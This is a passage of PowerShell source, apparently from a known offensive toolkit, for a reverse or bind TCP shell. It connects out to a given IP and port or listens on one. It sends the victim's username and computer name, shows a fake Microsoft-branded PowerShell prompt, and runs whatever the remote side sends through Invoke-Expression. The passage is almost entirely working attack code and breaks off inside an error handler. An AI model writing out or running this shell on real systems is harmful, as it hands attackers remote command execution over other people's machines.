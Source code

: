 ```powershell
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    try
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()
            $client = $listener.AcceptTcpClient()
        }

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target."
```